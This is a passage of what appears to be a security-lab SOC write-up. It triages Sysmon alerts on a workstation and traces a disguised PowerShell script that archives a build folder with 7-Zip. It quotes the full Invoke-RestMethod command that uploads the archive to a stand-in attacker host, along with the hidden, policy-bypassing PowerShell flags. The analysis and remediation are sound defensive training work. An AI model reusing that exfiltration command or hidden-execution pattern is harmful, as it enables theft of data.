   Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
   IntegrityLevel: System
   LogName: Microsoft-Windows-Sysmon/Operational
   LogonGuid: {3af46175-ee50-6a8e-e703-000000000000}
   LogonId: 0x3E7
   OpCode: Info
   OriginalFileName: PowerShell.EXE
   ParentCommandLine: C:\Windows\system32\svchost.exe -k netsvcs -p -s Schedule
   ParentImage: C:\Windows\System32\svchost.exe
   ParentProcessGuid: {3af46175-ee56-6a8e-2c00-000000001100}
   ParentProcessId: 1792
   ParentUser: NT AUTHORITY\SYSTEM
   ProcessGuid: {3af46175-3c7c-6a90-d11c-000000001100}
   ProcessId: 12408
   Product: Microsoft® Windows® Operating System
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Process Create (rule: ProcessCreate)
   TerminalSessionId: 0
   Type: Information
   User: [ [+]
   ]
   category: Process Create (rule: ProcessCreate)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 43431
   host: THM-SREYES.tryhatmestudios.thm
   timestamp: 10/24/2026 01:58:13.508
```

**Reasons why this alert is a false positive:**
The archive creation alerted on here is benign. 7z.exe was executed to zip contents of crashlogs and crashReports.

Bud wrote in the SOC handoff notes from 1 day ago that IT is trialing a new crash report uploader and confirming that it works as intended.

Submitted the URL (https://telemetry-vendor.thm/upload) to *TryDetectThis* and the result was **CLEAN**.

---

### ID:6359, Suspicious Archive Utility Execution on Workstation, Severity: High

I used the following search query searching for logs of child processes of the malicious .ps1 file *C:\Windows\Temp\svchost_update.ps1*:

```
* ParentCommandLine="powershell.exe  -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\\Windows\\Temp\\svchost_update.ps1"
```

Searching the output and looking for logs including *7z.exe*, we can find the full log that triggered the alert:

```
CommandLine: "C:\Program Files\7-Zip\7z.exe" a -mx=1 C:\Windows\Temp\nx_build_beta.7z C:\Dev\NeuralNexus\Build\*
   Company: Igor Pavlov
   CurrentDirectory: C:\Windows\System32\
   Description: 7-Zip Console
   EventCode: 1
   EventType: 4
   FileVersion: 24.09
   Hashes: MD5=B6D5860F368B28CAA9DD14A51666A5CD,SHA256=E2CA3EC168AE9C0B4115CD4FE220145EA9B2DC4B6FC79D765E91F415B34D00DE,IMPHASH=C9F19638C1640C54CAB9BD55C830AAED
   Image: C:\Program Files\7-Zip\7z.exe
   IntegrityLevel: System
   LogName: Microsoft-Windows-Sysmon/Operational
   LogonGuid: {3af46175-ee50-6a8e-e703-000000000000}
   LogonId: 0x3E7
   OpCode: Info
   OriginalFileName: 7z.exe
   ParentCommandLine: powershell.exe  -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1
   ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
   ParentProcessGuid: {3af46175-3bfc-6a90-a41c-000000001100}
   ParentProcessId: 14264
   ParentUser: NT AUTHORITY\SYSTEM
   ProcessGuid: {3af46175-3cec-6a90-e61c-000000001100}
   ProcessId: 9104
   Product: 7-Zip
   Sid: S-1-5-18
   SidType: 0
   SourceName: Microsoft-Windows-Sysmon
   TaskCategory: Process Create (rule: ProcessCreate)
   TerminalSessionId: 0
   Type: Information
   User: [ [+]
   ]
   category: Process Create (rule: ProcessCreate)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 43451
   host: THM-SREYES.tryhatmestudios.thm
   timestamp: 10/23/2026 01:56:48.497
```

**Reasons why this alert is a true positive:**
The process *7zip.exe* was spawned from a malicious PowerShell script stored in a user's Temp directory (C:\Windows\Temp\svchost_update.ps1).

Here we see the suspicious PowerShell file being executed with the flags *NoP*, *W Hidden*, and *Execution Policy Bypass*. These also hint to this PowerShell file being malicious.
* **-NoP (-NoProfile):** Skips executing user and system profile scripts to speed up the PowerShell startup
* **NonI (-NonInteractive):** Executes the script without presenting interactive prompts to the user
* **-W Hidden (-WindowStyle Hidden):** Executes the script in the background without showing a console window
* **-ExecutionPolicy Bypass:** Allows script execution regardless of security restrictions

The malicious PowerShell file (*svchost_update.ps1*) is masquerading as legitimate system activity *svchost.exe* to evade detection.

Data is being staged in the Temp directory **C:\Windows\Temp\nx_build_beta.7z**, this is part of an exfiltration campaign

Consider files in `C:\Dev\NeuralNexus\Build\*` to be compromised.

The activity behind this alert maps to [MITRE ATT&CK T1560.001 - Archive Collected Data: Archive via Utility](https://attack.mitre.org/techniques/T1560/001/).

#### Data for Case Report
*Reason for Escalating the Alert:*
```
This alert needs to be escalated as it is part of a single attack chain and relates to other events that require escalation.
```

*Recommended Remediation Actions:*
* Implement AppLocker Path Rules to prevent scripts from being executed in Temp paths (C:\Windows\Temp\ & %LocalAppData%\Temp\\*)
* Configure EDR rules to block execution of archive creation tools (7z.exe, tar.exe, rar.exe) when spawned by scripting interpreters
* Delete the created archive file (C:\Windows\Temp\nx_build_beta.7z) from the affected host
* Review the files contained in the directory (C:\Dev\NeuralNexus\Build\*) to determine the scope of intellectual property compromised

*List of Attack Indicators:*
* C:\Windows\Temp\svchost_update.ps1
* powershell.exe  -NoP -NonI -W Hidden -ExecutionPolicy Bypass
* nx_build_beta.7z
* 7z.exe

---

### ID:6360, Suspicious External Connection Following Archive Creation, Severity:Critical

I used the following search query searching for logs from the affected host (*THM-SREYES.tryhatmestudios.thm*) that occurred after the suspicious archive file (*C:\Windows\Temp\nx_build_beta.7z*) was created:

```
* | spath host | search host="THM-SREYES.tryhatmestudios.thm" | spath timestamp | search timestamp >= "10/23/2026 01:56:48.497"
```

The full log that triggered the alert is:
```
DestinationIp: 45.147.230.131
   DestinationPort: 8067
   EventCode: 3
   EventType: 4
   Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
   Initiated: true
   LogName: Microsoft-Windows-Sysmon/Operational
   OpCode: Info
   ProcessGuid: {3af46175-3bfc-6a90-a41c-000000001100}
   ProcessId: 14264
   Protocol: tcp
   Sid: S-1-5-18
   SidType: 0
   SourceIp: 10.60.10.20
   SourceName: Microsoft-Windows-Sysmon
   SourcePort: 52594
   TaskCategory: Network connection detected (rule: NetworkConnect)
   Type: Information
   User: [ [+]
   ]
   category: Network connection detected (rule: NetworkConnect)
   datasource: WinEventLog:Microsoft-Windows-Sysmon/Operational
   event_id: 43453
   host: THM-SREYES.tryhatmestudios.thm
   timestamp: 10/23/2026 01:56:49.507 
```

**Reasons why this alert is a true positive:**
We already know that a malicious PowerShell file (*C:\Windows\Temp\svchost_update.ps1*) spawned 7z.exe to create an archive file. More details in alert **ID 6359**.

Although *TryDetectThis* determined that the remote IP address (45.147.230.131) was **CLEAN**, this outbound connection is still suspicious. 

Continuing to search through the affected host's (THM-SREYES.tryhatmestudios.thm) logs, we can see where the attacker was able to exfiltrate the archive file *C:\Windows\Temp\nx_build_beta.7z* via PowerShell:
```
Invoke-RestMethod -Uri [http://]paylink-cdn.thm:8067/upload -Method Post -InFile C:\Windows\Temp\nx_build_beta.7z; Start-Sleep -Seconds 5
```

Here, the *Invoke-RestMethod* cmdlet was used to send an HTTP POST (-Method Post) request to the malicious URL [http://]paylink-cdn.thm:8067/upload to upload the *nx_build_beta.7z* file.

The activity behind this alert maps to [MITRE ATT&CK T1567 - Exfiltration Over Web Service](https://attack.mitre.org/techniques/T1567/).

#### Data for Case Report
*Reason for Escalating the Alert:*
```
This is part of a larger attack chain and is connected to other alerts that require escalation.
```

*Recommended Remediation Actions:*
* Kill any lingering PowerShell instances on the affected host (THM-SREYES.tryhatmestudios.thm) including the malicious script (svchost_update.ps1) and any running under the SYSTEM context
* Delete the created archive file (C:\Windows\Temp\nx_build_beta.7z) from the affected host
* Blacklist resolutions for the malicious domain ([http://]paylink-cdn.thm) across internal DNS resolvers
* Use firewall rules or the Secure Web Gateway to block outbound network traffic over non-standard ports
* Create detection rules to trigger when script interpreters execute upload cmdlets (Invoke-RestMethod, Invoke-WebRequest, BitsTransfer)

*List of Attack Indicators:*
* 45.147.230.131:8067
* C:\Windows\Temp\nx_build_beta.7z
* [http://]paylink-cdn.thm
* Invoke-RestMethod -Uri [http://]paylink-cdn.thm:8067/upload -Method Post -InFile C:\Windows\Temp\nx_build_beta.7z; Start-Sleep -Seconds 5
* svchost_update.ps1
